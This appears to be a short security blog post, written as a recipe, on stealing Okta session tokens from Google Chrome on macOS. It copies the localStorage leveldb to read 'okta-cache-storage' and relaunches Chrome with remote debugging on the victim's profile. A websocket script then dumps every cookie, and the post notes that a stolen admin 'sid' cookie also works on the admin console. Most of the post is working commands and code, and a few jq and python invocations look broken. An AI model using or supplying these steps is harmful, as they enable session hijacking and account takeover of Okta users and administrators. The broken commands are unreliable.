 ```yaml
---
layout: post
title:  "Dumping Okta Sessions in Chrome"
date:   2024-11-17 03:00:00 -0600
categories: 
---
```


# Local Storage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.[^1]

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump.git`
* `npm install levelup leveldown`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are stored in an encrypted SQLite database with the key saved in the keychain.[^2] [^3] Unencrypted cookies can still be fetched by attaching a remote chrome debugger.[^4] [^5] This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-allow-origins="*" --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session --profile-directory=Default`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect using the correct page id to dump the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

#### **`ripWCMN.py`**
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/<id>", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```
* `python3 rip ripWCMN.py  | jq -r '.[] | select(.url="https://<subdomain>.okta.com/app/UserHome")'`
* `python3 rip ripWCMN.py  | jq -c '.result.cookies[] | select(.name="idx")'`

> CREDIT - Justin Bui & @mangopdf

# Okta

If an admin session is stolen from `{tenant}.okta.com`, the session cookie can be used on `{tenant}-admin.okta.com`.[^6]

| Account | Name | Type | Note |
|---|---|---|---|
| Okta Admin | sid | cookie |  |
| Okta User | okta-token-storage | localStorage | JWT Auth Bearer |
| Okta User | idx | cookie | Reveal more than bearer token |

### References:
[^1]: https://github.com/rdreher/chromeStorageDump
[^2]: https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies
[^3]: https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec
[^4]: https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f
[^5]: https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e
[^6]: https://www.linkedin.com/pulse/oktas-so-secret-less-secure-api-authentication-method-chaim-sanders/